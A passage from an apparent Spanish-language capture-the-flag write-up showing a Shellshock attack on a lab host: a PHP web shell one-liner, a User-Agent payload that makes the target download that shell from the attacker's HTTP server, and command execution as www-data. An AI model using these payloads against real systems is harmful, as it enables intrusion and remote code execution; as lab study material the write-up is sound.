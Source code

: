 ### Uploading Malicious `php`File

Aprovechando este bug podremos enviar una `reverse shell` a nuestra máquina atacante, para ello crearemos un archivo que usaremos para ejecutar comandos, nos ayudaremos de `Brupsuite` o `curl`

Archivo `rce.php`
 
~~~ bash
echo '<?php system($_GET["cmd"]); ?>' > rce.php
~~~

Modificaremos el `User-Agent` y enviaremos la siguiente solicitud, pero primero tendremos un servidor HTTP con `python3`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Usaremos la misma solicitud HTTP que usamos como prueba de concepto y solicitaremos nuestro archivo `php` malicioso

~~~ bash
curl -IX GET http://bruteshock.dl/pruebasUltraSecretas/ -A "() { :; }; curl http://172.17.0.1/rce.php -o rce.php"
HTTP/1.1 200 OK
Date: Fri, 28 Mar 2025 18:21:31 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 1873
Content-Type: text/html; charset=UTF-8
~~~

En nuestro servidor HTTP deberíamos ver un `GET` a nuestro archivo `rce.php`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [29/Mar/2025 10:20:42] "GET /rce.php HTTP/1.1" 200 -
~~~


## Shellshock - RCE

Ahora mediante la web accedemos al archivo `rce.php`, podemos hacerlo o bien desde la web o mediante `curl`

~~~ bash
curl -X GET 'http://bruteshock.dl/pruebasUltraSecretas/rce.php?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Así se vería si hacemos la solicitud mediante el navegador

![image-center](/assets/images/posts/bruteshock-rce-web.png){: .align-center}
